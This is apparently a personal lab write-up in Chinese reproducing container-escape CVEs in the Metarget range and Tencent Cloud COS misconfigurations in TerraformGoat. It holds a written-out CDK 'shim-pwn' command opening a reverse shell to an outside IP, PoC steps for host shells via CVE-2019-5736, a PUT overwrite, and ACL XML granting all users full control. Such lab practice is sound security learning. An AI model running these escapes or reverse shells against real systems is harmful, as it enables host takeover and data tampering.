 # project01  漏洞复现                                                                             
一、start.......安装配置metarget靶场
1.拉取代码
root@VM-8-3-ubuntu:# git clone https://github.com/Metarget/metarget.git
2.切换目录
root@VM-8-3-ubuntu:# cd metarget/
3.安装依赖
root@VM-8-3-ubuntu:~/metarget# pip3 install -r requirements.txt
![image](https://github.com/user-attachments/assets/9ee7780c-38a3-484c-8455-34d2c8c8e46b)



## 1.	cve-2018-15664 容器逃逸
安装启动环境，查看版本
![image](https://github.com/user-attachments/assets/a224b3ec-36d2-40e3-b335-029301b82bee)
在这里找对应的POC，去做实验https://github.com/Metarget/cloud-native-security-book/tree/main
把poc放进metarget文件夹中，给两个执行文件（xx.sh为后缀）加上执行权限。如：chmod +x xxx.sh
![image](https://github.com/user-attachments/assets/973ded8d-b117-4464-a4fe-e9e978b4a96f)

![image](https://github.com/user-attachments/assets/9e5ec75d-bc5c-41bb-bbd2-c0411e270b83)

通过：执行命令
root@VM-8-3-ubuntu:~/metarget# ./run_write.sh 
FAILED -- HOST FILE UNCHANGED
Sending build context to Docker daemon  7.168kB
Step 1/11 : FROM opensuse/leap
Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
Unable to find image 'cyphar/symlink_swap:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
SUCCESS -- HOST FILE CHANGED
即可触发漏洞，完成复现






2.	cve-2019-13139 命令执行（不行,网上也没有）










3.	cve-2019-14271 容器逃逸(不行)









4.	cve-2020-15257 容器逃逸
安装漏洞环境root@VM-8-3-ubuntu:~/metarget# sudo ./metarget cnv install cve-2020-15257
![image](https://github.com/user-attachments/assets/d1ced1be-4672-4a6a-ae32-0f5e32bc22e5)

查看docker版本，下载ubuntu:18.04
远程连接到容器内部并查看containerd-shim
![image](https://github.com/user-attachments/assets/6462fb9a-6a5d-4e15-925d-df9d3663bf78)

下载漏洞利用工具：https://github.com/cdk-team/CDK/releases/tag/v1.0.2
![image](https://github.com/user-attachments/assets/fb5ec1de-00c9-47eb-8f82-14bb19dd4c08)

使用docker cp目录复制到容器内部
root@VM-8-3-ubuntu:~/metarget# docker cp cdk_linux_amd64 fbf9212c0fe6:/
连接到容器
root@VM-8-3-ubuntu:~/metarget# sudo docker exec -it fbf9212c0fe6 /bin/bash
给执行权限给该cdk
root@VM-8-3-ubuntu:/# chmod +x cdk_linux_amd64 

使用该工具执行漏洞利用。
root@VM-8-3-ubuntu:/# ./cdk_linux_amd64 run shim-pwn reverse 43.138.22.133 80  
（可能存在8888端口安全组没打开的情况）使用80端口，即可
![image](https://github.com/user-attachments/assets/eb1e8fa1-54d5-4d2c-afdb-894f214a5734)

成功获取shell
![image](https://github.com/user-attachments/assets/3ef7cb7c-c7ca-4ac2-8cf0-5dd0e1a9670a)

5.	cve-2019-5736 容器逃逸
安装环境
./metarget cnv install cve-2019-5736
![image](https://github.com/user-attachments/assets/9adbfc34-ce5c-4d0b-b1f4-9b98efcad554)
查看版本
![image](https://github.com/user-attachments/assets/cb9180c1-253b-462f-ba88-5db1d21f4158)
POC链接：
https://github.com/Frichetten/CVE-2019-5736-PoC
下载main.go并上传到服务器，修改payload信息

![image](https://github.com/user-attachments/assets/0067a375-7bc7-4105-bd4f-c68b5c727ee2)


编译
![image](https://github.com/user-attachments/assets/efe4a640-936e-4d98-9553-4eb4647b918f)
启动Ubuntu18的容器
把编译的main文件cp进去
然后登录容器
添加权限
执行POC，即可拿到shell
![image](https://github.com/user-attachments/assets/bd03b3be-97e4-44e4-bac0-5dced1943040)
成功拿shell
![image](https://github.com/user-attachments/assets/fda071fd-3574-4024-aba3-b0480297bb02)



6.	cve-2019-16884 容器逃逸(不行)




7.	cve-2017-1002101 容器逃逸(不行)






8.	cve-2019-11253 拒绝服务（不行）



9.	cve-2019-9946 流量劫持





10.	cve-2020-8554 中间人攻击




11.	cve-2020-8559 权限提升（疑似需要k8s集群环境）




12.	k8s_backdoor_daemonset 持久化










































































































end


二、start.......TerraformGoat安装部署
root@VM-8-3-ubuntu:~# docker pull registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker run -itd --name terraformgoat_tencentcloud_0.0.7 registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker exec -it terraformgoat_tencentcloud_0.0.7 /bin/bash

![image](https://github.com/user-attachments/assets/0cdd859d-f68f-414e-94dd-fcee73a7a302)
部署完成

1.启动环境（对象遍历）
cd /TerraformGoat/tencentcloud/cos/bucket_object_traversal/

编辑文件vim terraform.tfvars
输入key和id，保存退出
输入命令：terraform init
terraform apply

![image](https://github.com/user-attachments/assets/c5451360-c506-44b3-baa3-058a2be911a7)

看到地址
![image](https://github.com/user-attachments/assets/3d0f2133-cb81-4817-9033-b0410256ca5c)

看到key

![image](https://github.com/user-attachments/assets/bf3e7381-0985-4108-a29d-02135ab0fa04)
添加key访问（可以看到已经有对应的对象被访问/下载）
![image](https://github.com/user-attachments/assets/969cb15f-26c5-4a00-a53f-b8caa7e158d5)

到此存储桶对象遍历漏洞复现完成
销毁漏洞环境：
![image](https://github.com/user-attachments/assets/c8011a92-a4a5-449b-a1a0-51554f95450f)

2.启动环境（任意文件上传）
切换目录
cd /TerraformGoat/tencentcloud/cos/unrestricted_file_upload/

输入密钥和id
vim terraform.tfvars
![image](https://github.com/user-attachments/assets/132fb4ff-6286-42ad-b934-bda4c63521ad)

部署运行
terraform init
terraform apply
可以看到链接
![image](https://github.com/user-attachments/assets/b37b2e12-57f5-4f0f-acb7-018698eb1371)

访问
![image](https://github.com/user-attachments/assets/f666b463-6ef1-4849-b3c4-bc098a297a97)

拼接照片名字，发现可以下载
![image](https://github.com/user-attachments/assets/87e61964-4d80-4b3e-9a96-6eae2856ae83)

现在可以通过PUT方法来覆盖这个文件（在bp中抓包修改方法，重新发包）
![image](https://github.com/user-attachments/assets/4a838295-f40d-451c-990f-7f67618c3132)

再次访问，发现照片是损坏的，这个就是覆盖成功的效果
![image](https://github.com/user-attachments/assets/22a2aee5-df7e-4c23-ab5a-3a4cec9f4113)

销毁环境完成
![image](https://github.com/user-attachments/assets/4da506c6-980b-4bc9-8d43-4f53d1bd1096)

3.公开访问
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_public_access
编辑 terraform.tfvars 文件，在文件中填入的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply
![image](https://github.com/user-attachments/assets/067a197d-d137-4f63-9000-88deb8ef4b1a)

![image](https://github.com/user-attachments/assets/003c9f33-f1cc-481c-828e-f14988671e03)

浏览器访问即可，公开访问是任意都可以访问
![image](https://github.com/user-attachments/assets/b6ae6f92-9970-4352-bfc9-1b29fe7fd47b)

销毁
![image](https://github.com/user-attachments/assets/9f496548-940a-49a4-a395-dc1bdea47f22)

4.ACL可写
这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。
环境搭建
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply

![image](https://github.com/user-attachments/assets/3cdf6d7d-5504-4284-8570-1f39e3811171)

访问（被拒绝），拼接?acl，发现可以访问
![image](https://github.com/user-attachments/assets/7a9ece5d-1678-4f43-bdb2-376d5f5a2fc5)

原始：
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>READ_ACP</Permission>
</Grant>
新的
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
刷新，查看已经添加成功
![image](https://github.com/user-attachments/assets/633a2795-8cc2-4343-b075-7ad5c0771415)

![image](https://github.com/user-attachments/assets/2ff06ba5-100d-4609-a710-9434a6ff84b0)

摧毁
![image](https://github.com/user-attachments/assets/ce11f8a5-f03f-4a15-afac-0707860ffe53)


5.服务端加密未开启
这是一个用于构建腾讯云 COS Bucket 服务端加密未开启的场景。

场景搭建
在容器中执行以下命令

cd /TerraformGoat/tencentcloud/cos/server_side_encryption_disable
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key

vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey

部署靶场

terraform init
![image](https://github.com/user-attachments/assets/402fa18c-0e3f-4914-8377-77c9e40c6b0d)

terraform apply
![image](https://github.com/user-attachments/assets/8e7fb71f-f953-4eb3-93d9-12ea27bb4a76)

打开，查看是未加密（照片）
![85eff7ba0ef95d7ad49f5340aaa7d32](https://github.com/user-attachments/assets/224b5bd8-6515-4178-b2c0-a1f145d51827)

销毁（照片）
![image](https://github.com/user-attachments/assets/ea222537-a88c-42fb-bf4c-7ea3df2e7913)

6.CVM SSRF  （x）








